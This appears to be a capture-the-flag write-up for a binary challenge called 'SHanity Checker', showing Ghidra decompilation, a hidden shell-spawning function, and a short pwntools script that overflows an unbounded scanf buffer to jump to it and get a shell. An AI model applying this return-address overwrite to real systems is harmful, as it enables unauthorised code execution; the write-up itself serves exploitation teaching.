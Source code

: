# SHanity Checker

## File Analysis

![image](https://github.com/user-attachments/assets/4ae144de-598e-4de4-b8e0-26f1b59e4e77)

## Step to Solve:
## Step 1:

Use **Ghidra** to decompile the file. 

_**Decompile Code**_

<details>
  
<summary>main</summary>

```C
undefined8 main(void)

{
  undefined local_28 [32];
  
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  printf("Hello, whats your name?\n>> ");
  __isoc99_scanf(&%s,local_28);
  return 0;
}

```
</details>

<details>
  
<summary>FUN_00401174</summary>

```C
undefined  [16] FUN_00401174(void)

{
  syscall();
  return ZEXT816(0);
}

```

</details>

## Step 2:

![image](https://github.com/user-attachments/assets/1c8f3695-9a71-4f14-bbe8-ee55c78c2f40)


One interesting thing in this FUN_00401174 assembly is that, we can notice one weird hex value have been mov to RBX. So I just use **CyberChef** to see what is that value about and just found some cool thing, which is **/bin//sh**.

![image](https://github.com/user-attachments/assets/bb234ee7-9b36-45e9-b4d3-802c2a42b7d8)

## Step 3:

So at this point, I pretty sure that is just a simply **Buffer Overflow**, because that when we call that FUN_00401174, it will spawn a shell. And the main function **scanf** not specifying any size to be input to the buffer. Therefore, we can modify the **return address** to the FUN_00401174.

<details>
  <summary>Exploit Script</summary>

```python
from pwn import *

exe = context.binary = ELF('./chal')

p = exe.process()

offset = 0x28
vuln_address = 0x4011ac
payload = b"A" * 0x28 + p64(vuln_address)

p.sendlineafter(b">> ", payload)

p.interactive()
```
  
</details>

> ![image](https://github.com/user-attachments/assets/2820c5ae-51b0-49e3-9680-082bd2a09422)



